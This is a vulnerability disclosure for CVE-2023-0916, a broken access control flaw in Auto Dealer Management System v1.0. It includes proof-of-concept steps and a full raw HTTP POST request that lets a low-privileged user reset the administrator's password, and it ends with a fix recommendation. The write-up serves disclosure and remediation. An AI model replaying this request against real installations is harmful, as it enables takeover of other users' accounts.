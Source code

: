 # Auto Dealer Management System - Broken Access Control leads to compromise of all application accounts by accessing the ?page=user/list with low privileged user account

### Date: 
> 18 February 2023

### CVE Assigned:
**[CVE-2023-0916](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0916)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2023-0916) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2023-0916)

### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Auto Dealer Management System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken Access Control is a type of security vulnerability that occurs when a web application fails to properly restrict users' access to certain resources and functionality. Access control is the process of ensuring that users are authorized to access only the resources and functionality that they are supposed to. Broken Access Control can occur due to poor implementation of access controls in the application, failure to validate input, or insufficient testing and review.

### Affected Page:
> list.php , manage_user.php

> On these page, application isn't verifying the authorization mechanism. Due to that, all the parameters are vulnerable to broken access control and low privilege user could view the list of user's and change any user password to access it.

### Description:
> Broken access control allows low privilege attacker to change password of all application users

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: ?page=user/list
2. Click on Action and Edit the password of Admin

![image](https://user-images.githubusercontent.com/123810418/219884701-0f1feb4f-6c8a-4299-b510-1762461910ee.png)

4. Update the Password and Submit

5. Request:
```
POST /adms/classes/Users.php?f=save HTTP/1.1
Host: localhost
Content-Length: 877
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfODLB5j55MvB5pGU
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/adms/admin/?page=user/manage_user&id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1ig2qf0q44toal7cqbqvikli5
Connection: close

------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="firstname"

Adminstrator
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="middlename"


------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="lastname"

Admin
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="password"

admin123
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundaryfODLB5j55MvB5pGU
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryfODLB5j55MvB5pGU--

```
6. Successful exploit screenshots are below (without cookie parameter)
![image](https://user-images.githubusercontent.com/123810418/219884923-5283fca6-d509-4c48-9db0-f61ea6dbb352.png)

7. Vulnerable Code Snippets:

![image](https://user-images.githubusercontent.com/123810418/219884994-e74d7d48-4d45-4135-9a38-45e26c65434b.png)

![image](https://user-images.githubusercontent.com/123810418/219885023-a76afbe0-88f0-4aaa-89cd-1e541e511427.png)

### Recommendation:
> Whoever uses this CMS, should update the authorization mechanism on top of the  list.php , manage_user.php pages as per requirement to avoid a Broken Access Control attack:
